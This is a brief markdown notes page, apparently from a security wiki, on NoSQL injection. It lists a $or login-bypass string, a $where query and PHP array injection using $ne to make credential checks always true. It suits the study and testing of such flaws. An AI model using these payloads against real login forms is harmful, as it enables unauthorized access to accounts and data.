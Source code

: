 ```yaml
---
layout: page
title:  "NoSQL injections"
permalink: "nosql-injections.html"
tags: [security, injections, web]
---
```


# NoSQL OR injections
* `login=admin',$or:[{},{'a'='a&pass='}]`
* `find( {'$where' : 'function() { return artist == "Weezer"; }'} )`

# PHP array injections
* PHP associative arrays: `$collection->find(array('login' => 'test'))` equivalent to `find({'login': 'test'})`
* Automatic array creation: if `page.php?param[foo]=bar` then `param == array('foo' => 'bar')`
* If `db->logins->find(array(“username”=>$_POST[“username”],
“password”=>$_POST[“password”]));`, then `login[$ne]=test&password[$ne]=test` transformed to `array(“username” => array(“$ne” => 1), “password” =>
array(“$ne” => 1));` equivalent to `{ username: { $ne: 1 }, password: { $ne: 1 } }`


# Resources and references
* [NoSQL cheatsheet](/programming/nosql)

